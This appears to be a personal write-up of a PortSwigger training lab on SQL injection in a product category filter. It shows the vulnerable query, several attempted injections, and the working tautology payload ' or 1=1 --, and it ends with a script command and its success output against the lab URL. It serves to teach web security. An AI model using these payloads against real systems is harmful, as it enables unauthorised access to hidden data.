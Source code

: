 ## SQL injection - product category filter

The primary goal of this lab is to manipulate SQL queries to display all products, including those not meant to be released or shown to users. Typically, a product's visibility is controlled by a 'released' flag in the database, with '1' indicating that the product is released and '0' indicating it is not.


ref:

```
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
```

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

**End goal:** display all products both released and unreleased.

### Vulnerability Analysis

In this scenario, the application uses a query to filter products based on their category and whether they have been released:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The goal is to modify this query so it returns all products, regardless of their 'released' status.

### Attack Vectors

Below are a series of SQL manipulations attempted to exploit the vulnerability:

1. **Initial Attempt**:

   ```sql
   SELECT * FROM products WHERE category = 'Pets' AND released = 1
   ```

   This query changes the category but still only shows released products.
2. **Syntax Testing**:

   ```sql
   SELECT * FROM products WHERE category = ''' AND released = 1
   ```

   This introduces a syntax error to test the application's handling of SQL input.
3. **Commenting Out**:

   ```sql
   SELECT * FROM products WHERE category = ''--' AND released = 1
   ```

   Attempts to comment out the rest of the SQL query but incorrectly formatted.
4. **Empty Category**:

   ```sql
   SELECT * FROM products WHERE category = ''
   ```

   Removes the category filter but doesn't address the 'released' condition.
5. **Successful Exploit**:

   ```sql
   SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1
   ```

   This is the successful payload. By injecting `' or 1=1 --`, it effectively removes the filter on the 'released' status, making the query return all products. The `1=1` is always true, and `--` comments out the rest of the query, preventing any syntax errors or further conditions from being applied.

### Test Payloads

To exploit this vulnerability, the following payloads were tested:

- `'`
- `'--`
- `' or 1=1 --`

The payload that solved the lab and achieved the objective of revealing all products was:

```sql
' or 1=1 --
```

## How It Works

The successful payload works by breaking out of the application's intended SQL query structure and injecting our own logic that always evaluates to true. By appending `--`, we ensure the original query's remaining parts are ignored by the database, effectively bypassing any filters the application intended to apply.


` $ python -u "h:\bug Bountry\Web\SQL injection\Lab1\sql script.py" "https://0a20007e04b26508881fc4df00f900ae.web-security-academy.net/filter?category=" "'or 1=1--"    `

`[+] SQL injection successful! `
